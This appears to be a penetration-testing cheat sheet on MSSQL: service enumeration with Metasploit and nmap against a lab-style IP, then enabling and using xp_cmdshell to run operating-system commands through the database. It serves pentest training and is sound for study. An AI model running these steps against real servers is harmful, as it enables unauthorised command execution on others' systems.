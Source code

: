 ## MSSQL Ping in Metasploit
```
$ msf6 auxiliary(scanner/mssql/mssql_ping)
```

## Enumeration
By default, MSSQL uses ports TCP/1433 and UDP/1434, and MySQL uses TCP/3306. However, when MSSQL operates in a "hidden" mode, it uses the TCP/2433 port. We can use Nmap's default scripts -sC option to enumerate database services on a target system:

### Banner Grabbing
```
$ nmap -Pn -sV -sC -p1433 10.10.10.125
```

## Execute Commands
- xp_cmdshell is a powerful feature and disabled by default. xp_cmdshell can be enabled and disabled by using the Policy-Based Management or by executing sp_configure
- The Windows process spawned by xp_cmdshell has the same security rights as the SQL Server service account
- xp_cmdshell operates synchronously. Control is not returned to the caller until the command-shell command is completed

### XP_CMDSHELL
enable_xp_cmdshell

```
1> xp_cmdshell 'whoami'
2> GO

xp_cmdshell whoami /priv

output
-----------------------------
no service\mssql$sqlexpress
NULL
(2 rows affected)
```

#### Enable XP_CMDSHELL
If xp_cmdshell is not enabled, we can enable it, if we have the appropriate privileges, using the following command:

```
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```
